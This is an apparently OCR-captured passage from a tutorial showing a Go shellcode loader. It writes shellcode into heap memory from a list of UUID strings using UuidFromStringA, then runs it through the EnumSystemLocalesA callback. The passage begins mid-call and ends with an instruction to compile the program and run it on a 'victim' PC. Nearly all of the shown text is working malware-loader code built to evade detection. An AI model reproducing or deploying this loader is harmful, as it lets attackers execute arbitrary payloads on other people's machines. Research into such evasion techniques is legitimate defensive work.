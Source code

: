 ```go
    0,
    0,
  )

  if heapAddr == 0 { // Handle error
    log.Fatal(err)
  }

  // Allocate heap memory
  fmt.Println("Calling HeapAlloc...")
  addr, _, err := HeapAlloc.Call(
    heapAddr,
    0,
    0x00100000,
  )

  if addr == 0 { // Handle error
    log.Fatal(err)
  }

  addrPtr := addr
  // Iterate over UUIDs to write shellcode
  for _, uuid := range uuids {
    u := append([]byte(uuid), 0)

    fmt.Println("Calling UuidFromStringA with UUID: " + uuid)
    rpcStatus, _, err := UuidFromStringA.Call(
      uintptr(unsafe.Pointer(&u[0])),
      addrPtr,
    )

    if rpcStatus != 0 { // Handle error
      log.Fatal(err)
    }

    addrPtr += 16
  }

  // Execute shellcode
  fmt.Println("Calling EnumSystemLocalesA...")
  ret, _, err := EnumSystemLocalesA.Call(addr, 0)
  if ret == 0 {
    log.Fatal(err)
  }

  fmt.Println("Shellcode should have been executed!")
}
```

Now compile the final program, transfer it to the "victim" PC and execute it, this is the results
